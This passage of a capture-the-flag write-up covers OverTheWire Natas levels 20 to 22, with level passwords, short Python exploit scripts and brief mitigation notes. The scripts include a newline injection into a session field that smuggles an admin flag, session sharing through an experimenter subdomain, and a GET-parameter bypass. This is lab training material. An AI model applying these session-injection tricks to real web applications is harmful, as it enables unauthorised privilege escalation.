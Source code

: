 r = requests.post(url, auth=(username, password), data=(dict(name="test\nadmin 1")))
cookie = r.cookies.get_dict()

r2 = requests.get(url, auth=(username, password), cookies=cookie)
print (r2.content)


#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
Ensure data validation


---
### Natas 21

#### Credentials
natas21
89OWrTkGmiLZLv12JY4tLj2c4FW0xn56

#### How you passed the challenge
main site looks for admin=1, but natas21-experimenter can set any request payload into the session on a post request.

#! /bin/python
import requests, string, sys, binascii, codecs
url = "http://natas21.natas.labs.overthewire.org"
url2 = "http://natas21-experimenter.natas.labs.overthewire.org"
username = "natas21"
password = "89OWrTkGmiLZLv12JY4tLj2c4FW0xn56"

r2 = requests.post(url2, auth=(username, password), data=(dict(submit="Update",admin="1")))
cookie = r2.cookies.get_dict()

r3 = requests.post(url, auth=(username, password), data=(dict(admin="1")), cookies=cookie)
print (r3.content)

#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
Ensure data validation and that only specific controls can set session data as session data can be shared across different site if hosted on the same server and environment, like PHP.


---
### Natas 22

#### Credentials
natas22
91awVM9oDiUGm33JdzM7RVLBS8bz9n0s

#### How you passed the challenge
http://natas22.natas.labs.overthewire.org/?revelio=1
adding revelio to GET should do the trick as the page redirects because there is no way to set the admin, but the last check is only for revelio...
